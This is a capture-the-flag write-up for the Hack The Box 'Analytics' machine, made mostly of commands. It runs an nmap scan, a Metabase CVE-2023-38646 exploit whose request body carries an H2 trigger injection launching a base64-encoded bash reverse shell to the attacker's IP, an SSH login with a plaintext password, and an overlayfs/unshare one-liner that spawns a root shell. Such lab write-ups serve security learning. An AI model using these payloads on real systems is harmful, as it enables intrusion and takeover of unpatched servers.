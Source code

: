 # Analytics Write-up

<img src="https://labs.hackthebox.com/storage/avatars/f86fcf4c1cfcc690b43f43e100f89718.png" width="200" height="200">

## Nmap 

 `nmap -sC -sV 10.10.11.233`

    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
    |_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://analytical.htb/
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### CVE

CVE-2023-38646

`git clone https://github.com/securezeron/CVE-2023-38646`

`python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lhost IP-address --lport 4243`

    {
        "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
        "details": {
            "is_on_demand": false,
            "is_full_sync": false,
            "is_sample": false,
            "cache_ttl": null,
            "refingerprint": false,
            "auto_run_queries": true,
            "schedules": {},
            "details": {
                "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjkxLzQyNDMgMD4mMQ==}|{base64,-d}|{bash,-i}')\n$$--=x",
                "advanced-options": false,
                "ssl": true
            },
            "name": "test",
            "engine": "h2"
        }
    }

### SSH

`ssh metalytics@analytical.htb`

An4lytics_ds20223#

Get user flag 

![image](https://github.com/zer00d4y/writeups/assets/128820441/c6534605-9c37-42e8-9d09-51651e677bbd)

## Privilege Escalation

![image](https://github.com/zer00d4y/writeups/assets/128820441/a3cdb4ac-ecf8-4025-a09d-a7866945417e)

    unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;import pty;os.setuid(0);pty.spawn("/bin/bash")'

![image](https://github.com/zer00d4y/writeups/assets/128820441/3940a731-da2a-43c3-aeea-281e9f2a0384)
